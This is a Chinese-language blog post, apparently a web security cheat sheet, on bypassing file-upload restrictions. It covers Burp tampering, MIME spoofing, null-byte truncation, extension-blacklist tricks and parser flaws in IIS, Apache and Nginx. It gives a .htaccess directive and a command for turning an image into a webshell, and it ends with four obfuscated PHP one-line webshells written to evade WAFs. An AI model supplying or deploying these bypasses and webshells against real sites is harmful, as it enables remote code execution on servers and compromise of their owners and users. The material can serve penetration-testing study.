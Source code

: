 ```yaml
---
published: true
layout: post
tags: web安全
categories: document
---
```


##  客户端检测绕过
   通过前端js脚本对上传进行限制，通过设置禁止浏览器js脚本运行或者通过 burp 之类的代理工具进行绕过提交 .
在burp中将图片后缀名改为asp后，在服务器中就会以asp格式存储  
![](https://ljjbloghub.io/img/上传1.png)
##  服务器端检测绕过
### 文件类型(mime)检测 
可以使用burpsuite ，repeater模块修改content-Type：为image/png绕过验证.   

### 目录路径检测 
burp抓包如果能看见上传文件路径，可以使用空字符截断目录路径来绕过   
1.	get方法传送文件路径，利用%00截断   
![](https://ljjbloghub.io/img/上传2.png)
那么你上传一个jpg图片后就会存为以下格式，空格后的内容会被截断  
![](https://ljjbloghub.io/img/上传3.png)
2.若是post方法传送路径，需要在hex中修改二进制将空格20改为00，这样服务器端保留的文件为11.php（.php%00.jpg)   
### 后缀名检测  
基于黑名单的绕过：  
1、php可以执行的后缀名.php2，3，4，5  
2、test.asp%00.jpg   test.php(0x00).jpg的方式进行截断   
3、找黑名单扩展名的漏网之鱼，比如上传.asa\.cer\.cdx\.asax这四种文件格式也会被当着asp脚本来解析）  
4、可能存在大小写绕过漏洞，比如 aSp 和 pHp 之类,若没有去空处理可以加个空格绕过。   
5、利用windows和Linux系统的特性进行特殊文件名绕过，a.asp. a.asp_（test.php:.jpg test.php::$DATA ）这种命名方式在 windows 系统里是不被允许的，所以需要在 burp 之类里进行修改 ，然后绕过验证后，会被 windows 系统自动去掉后面的点和空格。   

白名单绕过：  
1、截断攻击   
2、利用解析漏洞  
3、特别文件名构造  


### 解析攻击（利用web应用服务器的漏洞上传可执行脚本）  

若.Htaccess格式允许上传，上传htaccess文件，能够让jpg以php格式运行  
	内容为 AddType application/x-httpd-php .jpg  
   
iis6.0解析漏洞:  
1、创建目录包含.asp那么此文件夹内的文件都会以asp运行。  
![](https://ljjbloghub.io/img/上传4.png)  
2、运行目录解析 将/视为截断（/xx.asp/xx.jpg）.     
3、只要文件名中含有 ".asp;" 会优先按 asp 来解析  
 例： xxx.asp;.jpg以这个后缀上传图片马,就会以asp解析  
     
IIS7.0/7.5 解析漏洞:  
  对 php 解析时有一个类似于 Nginx 的解析漏洞，对任意文件名只要在 URL 后面追加上字符串"/任意文件名.php"就会按照 php 的方式去解析   
     
Apache解析漏洞（双扩展名解析绕过)    
  1、 Apache 是从右到左开始判断解析，后缀名改为 a.php.7z 如果服务器没有设置对7z后缀以什么格式解析的话那么会自动变为php  
  2、 如果在 Apache 的 conf 里有这样一行配置AddHandler php5-script .php。这时只要文件名里包含 .php，即使文件名是 test2.php.jpg 也会以 php 来执行   

Nginx 解析漏洞（php自身的漏洞） 
    1、一个是对任意文件名，在后面添加 /任意文件名.php的解析漏洞，比如原本文件名是 test.jpg，可以添加为 test.jpg/x.php 进行解析攻击。   
    2、还有一种是对低版本的 Nginx 可以在任意文件名后面添加 %00.php 进行解析攻击。   

### 文件内容检测  
制作图片木马可以绕过或者在木马内容基础上再加了一些文件信息  
1.文件幻数检测:  
	![](https://ljjbloghub.io/img/上传5.png)
2.文件相关信息检测绕过:    
根据类型在文件头部添加以下文本    
（1） .JPEG;.JPE;.JPG，”JPGGraphic File”  
（2） .gif，”GIF 89A”  
（3） .zip，”Zip Compressed”  
（4） .doc;.xls;.xlt;.ppt;.apr，”MS Compound Document v1 or Lotus Approach APRfile” 

3.文件加载检测绕过：  
 在图片注释处("")添加php代码   
     ![](https://ljjbloghub.io/img/上传6.png)
Windows环境下图片马制作方法：  
    copy normal.jpg /b + shell.php /a webshell.jpg

PS:图片马上传后需要配合解析漏洞或者本地文件包含漏洞才能以脚本语言解析。  

### 文件上传一句话php马绕过waf
（适用于php版本7.0以下）
1.  

          <?php $_GET[“test1"]($_GET[“test2"]); ?>  
          
2.  

        $str="a=assert";  
        parse_str($str);//执行这个函数后，生成一个变量$a，值为字符串”assert"
        

3. 

        <?php 
          function fun() 
          {return $_POST['a'];} 
          @preg_replace("/test/e",fun(),"test test test"); 
        ?>   
    
4.

    <?php 
    $b='tressa'; 
    $c=strrev($b); 

    $c($_POST[key]); 
    ?> 

文件上传思维导图：
![](https://ljjbloghub.io/img/上传7.png)
